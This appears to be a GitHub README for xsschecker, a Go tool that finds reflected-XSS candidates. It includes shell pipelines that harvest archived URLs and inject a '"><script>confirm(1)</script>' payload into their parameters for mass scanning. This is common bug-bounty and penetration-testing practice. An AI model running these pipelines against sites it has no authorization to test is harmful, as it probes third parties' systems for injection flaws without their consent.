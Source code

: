 ```
██╗  ██╗███████╗███████╗ ██████╗██╗  ██╗███████╗ ██████╗██╗  ██╗███████╗██████╗ 
╚██╗██╔╝██╔════╝██╔════╝██╔════╝██║  ██║██╔════╝██╔════╝██║ ██╔╝██╔════╝██╔══██╗
 ╚███╔╝ ███████╗███████╗██║     ███████║█████╗  ██║     █████╔╝ █████╗  ██████╔╝
 ██╔██╗ ╚════██║╚════██║██║     ██╔══██║██╔══╝  ██║     ██╔═██╗ ██╔══╝  ██╔══██╗
██╔╝ ██╗███████║███████║╚██████╗██║  ██║███████╗╚██████╗██║  ██╗███████╗██║  ██║
╚═╝  ╚═╝╚══════╝╚══════╝ ╚═════╝╚═╝  ╚═╝╚══════╝ ╚═════╝╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝
```

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```
go install github.com/rix4uni/xsschecker@latest
```
or

```
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker /usr/bin/
```
## Usage
```
go run xsschecker.go -h
Usage: xsschecker [OPTIONS]

Options:
  -match string
        The string to match against the domain response. (required)
  -vuln
        If set, only vulnerable URLs will be printed.
```

## Reflected XSS Mass Automation
```
cat subs.txt | waybackurls >> waybackurls-urls.txt
cat subs.txt | gau >> gau-urls.txt
cat waybackurls-urls.txt gau-urls.txt | anew -q urls.txt

cat urls.txt | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>'
```

## Reflected XSS Oneliner Command1
```
echo "testphp.vulnweb.com" | waybackurls | gf xss | uro | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>' -vuln
```

## Reflected XSS Oneliner Command2
```
echo "testphp.vulnweb.com" | waybackurls | uro | gf allparam | grep "=" | gf blacklist | qsreplace '"><script>confirm(1)</script>' | xsschecker -match '"><script>confirm(1)</script>' -vuln
```

## Reflected XSS Oneliner Command1 and Reflected XSS Oneliner Command2 Results Comparison
![image](https://github.com/rix4uni/xsschecker/assets/72344025/8034668c-42c3-47b1-9fee-5a58c2c96d63)

